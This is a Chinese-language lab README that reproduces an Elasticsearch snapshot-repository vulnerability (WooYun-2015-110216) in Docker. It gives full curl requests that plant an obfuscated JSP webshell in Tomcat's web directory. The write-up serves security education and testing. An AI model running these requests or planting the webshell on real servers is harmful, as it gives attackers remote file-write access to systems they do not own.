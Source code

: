 # Elasticsearch写入webshell漏洞（WooYun-2015-110216）

参考文章： http://cb.drops.wiki/bugs/wooyun-2015-0110216.html

## 原理

ElasticSearch具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如Tomcat、PHP等，我们可以利用ElasticSearch的备份功能写入一个webshell。

和CVE-2015-5531类似，该漏洞和备份仓库有关。在elasticsearch1.5.1以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web路径如果不在该目录下，也无法写入webshell。所以该漏洞影响的ElasticSearch版本是1.5.x以前。

## 测试环境

编译与启动测试环境：

```
docker-compose build
docker-compose up -d
```

简单介绍一下本测试环境。本测试环境同时运行了Tomcat和ElasticSearch，Tomcat目录在`/usr/local/tomcat`，web目录是`/usr/local/tomcat/webapps`；ElasticSearch目录在`/usr/share/elasticsearch`。

我们的目标就是利用ElasticSearch，在`/usr/local/tomcat/webapps`目录下写入我们的webshell。

## 测试流程

首先创建一个恶意索引文档：

```
curl -XPOST http://127.0.0.1:9200/yz.jsp/yz.jsp/1 -d'
{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
'
```

再创建一个恶意的存储库，其中`location`的值即为我要写入的路径。

> 园长：这个Repositories的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了tomcat的web部署目录，因为只要在这个文件夹创建目录Tomcat就会自动创建一个新的应用(文件名为wwwroot的话创建出来的应用名称就是wwwroot了)。

```
curl -XPUT 'http://127.0.0.1:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

存储库验证并创建:

```
curl -XPUT "http://127.0.0.1:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

完成！

访问`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp`，这就是我们写入的webshell。

该shell的作用是向wwwroot下的test.jsp文件中写入任意字符串，如：`http://127.0.0.1:8080/wwwroot/indices/yz.jsp/snapshot-yz.jsp?f=success`，我们再访问/wwwroot/test.jsp就能看到success了：

![](1.png)
